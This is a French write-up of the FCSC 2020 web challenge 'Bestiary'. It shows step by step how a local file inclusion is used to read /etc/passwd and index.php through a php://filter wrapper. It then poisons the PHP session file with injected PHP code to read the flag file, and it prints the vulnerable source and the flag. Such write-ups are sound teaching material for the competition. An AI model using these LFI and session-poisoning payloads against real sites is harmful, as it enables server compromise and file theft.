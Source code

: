 ```yaml
---
title: FCSC 2020 - Web - Bestiary
excerpt: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: [CTF, FCSC, writeup, web]
categories: Write-ups
comments: true
---
```


<img src="/img/fcsc_logo.png" width="300" class="center-image">
Le France CyberSecurity Challenge est une compétition en ligne organisée par l’Agence National de la Sécurité des Systèmes d’Informations (ANSSI). Ce CTF a pour but de préselectionner 30 joueurs: 15 juniors (entre 15 et 20 ans) et 15 seniors (entre 21 et 25 ans).
<hr>
![Challenge](/img/fcsc_bestiary.PNG){: .center-image} 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

![Home](/img/fcsc_home.PNG){: .center-image} 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd
```

![LFI](/img/fcsc_lfi_etc.PNG){: .center-image}

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```

![Base](/img/fcsc_bestiary_base.PNG){: .center-image}

On décode tout ça en base64 et on obtient le code source la page `index.php` :
```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

![Session](/img/fcsc_bestiary_session.PNG){: .center-image}

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 
```php
<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>
```  
J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E
```

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a
```

On affiche les sources et voilà !  

![FLAG](/img/fcsc_bestiary_flag.PNG){: .center-image}

Flag : 
```
FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
```